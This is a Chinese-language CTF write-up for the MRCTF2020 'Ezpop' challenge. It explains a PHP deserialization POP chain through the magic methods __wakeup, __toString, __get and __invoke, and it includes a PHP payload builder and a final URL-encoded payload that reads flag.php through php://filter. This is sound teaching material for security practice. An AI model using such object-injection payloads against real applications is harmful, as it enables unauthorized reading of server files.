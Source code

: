 ```yaml
---
layout: mypost
title: "[MRCTF2020]Ezpop"
categories: [ctf_wp]
---
```


（emmmm题目就很明显了，就是一个pop链的构造，不懂的可以先去看一下这篇文章--正XOR反序列化）

1.直接来看一下源码

```
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

看一眼，源码是有三个类，做这种pop链的题，我感觉吧，一定要记住以下几件事（引用一下这篇文章--正XOR反序列化里的东西），不要一看见这题就害怕

```
1.构造pop链就像是python或者c++里面类的继承一样，说白了就是让一个a实例化的类（对象）里面的属性等于另一个b实例化的类（对象），这样就可以成功的让a调用b里面的方法和属性
2.在进行序列化的时候，实际上也是只能去序列化属性，方法是不能被序列化的，然后当反序列化的时候属性和魔术方法一结合，就能实现pop链条，这个当然在构造pop链的时候就可以加一些调试的语句去看这个pop链最终能不能去执行危险函数
3.当构造pop链的时候，有人说能不能直接不写这些魔术方法（当然魔术方法要是只是写一些输出的话肯定不用写，但是涉及到一些对象与对象的关系肯定要写出来），就像刚刚我说的那样（在进行序列化的时候，实际上也是只能去序列化属性，方法是不能被序列化的，然后当反序列化的时候属性和魔术方法一结合）,但是如果在构造的时候都不去写这些魔术方法，那么这些对象与对象之间都串不起来，即都生成不了序列化之后的字符串，如果你不嫌麻烦，当然也可以自己去手工的去写一些将两个对象联系起来的语句，但这很多情况下会出问题，因为最终生成序列化后的字符串，还是要经过题目或者是代码里面的一些魔术方法去串起来的，那为什么不一开始在生成pop链的时候就去用题目或者是代码里面给出的现成的把对象串起来的方法呢？
4.一般都是序列化一个对象，然后要从这个对象与其他对象连接起来，所以选择一个合适的序列化对象也是很关键的一步
5.一般分析的时候是先找危险函数，然后一步一步倒着推出要先序列化哪个类，然后真正反序列化的时候又是正着走的
```

这个题就是三个类

```
Modifier
Show
Test
```

2.咱们一个一个看，首先看Modifier这个类

```
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}
```

这个首先定义了一个append方法，毫无疑问这个就是危险函数，是个文件包含，首先想到伪协议，然后还有个\_\_invoke魔术方法（这个方法就是把对象当成一个函数的时候就会被调用），这个方法会去调用append方法，所以接下来就看谁能够触发这个魔术方法，继续往下看，看这个Show类

```
class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}
```

这个有个\_\_wakeup魔术方法还有\_\_toString()这个魔术方法，而且这个\_\_wakeup魔术方法里面有这个正则匹配，这些特征就是这种pop题的老熟人，看多了自然理解我在说什么，或者不懂的先去康康我的那篇文章--正XOR反序列化，里面会讲，总而言之就是wakeup有正则，给正则传个对象触发toString，然后再看一下这个Test类

```
class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
```

这里有个\_\_get()方法，我们知道(当访问类中的私有属性或者是不存在的属性，触发get魔术方法)，而哪里调用了不存在的属性呢，很明显是中间Show这个类，想办法让它调用不存在的source属性

3.okok那这一下子就连起来了，大致的一个利用流程是从Show入手再到Test，最后抵达Modifier

```
反序列化->调用Show类中魔术方法__wakeup->preg_match()函数对Show类的属性source处理->调用Show类中魔术方法__toString->返回Show类的属性str中的属性source(此时这里属性source并不存在)->调用Test类中魔术方法__get->返回Test类的属性p的函数调用结果->调用Modifier类中魔术方法__invoke->include()函数包含目标文件(flag.php)
```

然后就想办法把各个对象联系起来就好了，下面给出我的payload

```
<?php
class Modifier {
    protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show
{
    public $source;
    public $str;

    public function __construct($file = "index.php")
    {
        $this->source = $file;
        echo 'Welcome to ' . $this->source . "<br>";
    }

    public function __toString()
    {

        return $this->str->source;
    }

    public function __wakeup()
    {
        if (preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }

}
$a = new Modifier();
$b = new Show();
$c = new Test();
$b->source = $b;
$b->source->str = $c;
$c->p = $a;
echo urlencode(serialize($b));
```

比如上面这个代码里面的

```
$b->source = $b;
$b->source->str = $c;
$c->p = $a;
```

这个就是用来想办法去把各个对象给联系起来，不联系的话可能就是只有Test这个类里面的方法和属性，就像我上面说的那几点一样

这里还有个细节就是，如果不加urlencode（）这个函数，序列化会有不可见字符，因为Modifier类中的属性var为protected，如果在序列化后的字符串里直接改肯定会出错，所以先编码一下可以避免这个问题

最终的payload如下

```
?pop=O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Br%3A1%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7D
```

4.然后得到base64编码的文件源码解密即可

![](image-20231102132843707-1024x103.png)

![](image-20231102132855536-1024x471.png)

欧克那这道题就到这里

Finish!!!
